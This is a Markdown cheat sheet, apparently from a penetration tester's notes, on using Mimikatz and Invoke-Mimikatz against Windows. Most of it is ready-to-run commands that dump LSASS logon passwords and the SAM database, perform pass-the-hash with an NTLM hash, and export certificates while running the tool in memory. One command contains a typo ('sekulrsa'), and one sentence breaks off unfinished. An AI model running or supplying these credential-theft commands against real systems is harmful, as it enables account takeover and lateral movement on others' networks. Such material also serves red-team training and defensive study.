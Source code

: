 
This note does not cover the basics of Windows authentication.  For an overview of local Windows authentication, reference my [Windows Authentication](../Windows%20Authentication.md) note.
## Overview
---
**Mimikatz.exe** is a versatile utility for Windows that can extract and manipulate authentication data, including passwords and cryptographic tokens, from the Windows operating system

> [!info]
> The Mimikatz usage wiki can be found [here](https://github.com/gentilkiwi/mimikatz/wiki).

- The primary method of usage is via the binary.
- An alternative method of usage is via `Invoke-Mimikatz.ps1`

## Usage via ``mimikatz.exe``
---
**Repo Link:** https://github.com/gentilkiwi/mimikatz

- ``mimikatz.exe`` is an incredibly robust and vast tool, so all use cases will not be documented here.
- This covers common use-cases; make sure to reference the tool's wiki for more information.

```powershell
#  Acquire "debug" process privileges if running as an administrator instead of SYSTEM 
./mimikatz.exe "privilege::debug"

# Dump LSASS (non-interactive)
./mimikatz.exe "sekurlsa::logonpasswords exit"

# Dump LSASS from a process dump
./mimikatz.exe "sekurlsa::minidump <lsass>.dmp"
./mimikatz.exe "sekulrsa::logonpasswords"

# Dump the SAM database (requires: SYSTEM)
./mimikatz.exe "lsadump::sam exit"

# Pass-The-Hash using user's NTLM hash (default: /run:cmd)
./mimikatz.exe "sekurlsa::pth /user:<username> /domain:workgroup /ntlm:<hash> exit"
```


## Usage via ``Invoke-Mimikatz.ps1``
---
**Repo Link:** https://github.com/g4uss47/Invoke-Mimikatz

- ``Invoke-Mimikatz.ps1`` is a PowerShell wrapper for Mimikatz that allows it to be loaded into memory and executed entirely from a PowerShell script.
- The script contains base64 strings of both 

```powershell
# Executes: "sekurlsa::logonpasswords exit"
Invoke-Mimikatz -DumpCreds

# Executes: "crypto::cng crypto::capi `"crypto::certificates /export`" `"crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE`" exit"
Invoke-Mimikatz -DumpCerts

# Dump the SAM database (requires: SYSTEM)
Invoke-Mimikatz -Command "lsadump::sam"

# Commands with spaces require commenting wrapping quotations
Invoke-Mimikatz -Command "`"lsadump::sam /sam:<hive_path>.hiv`""
```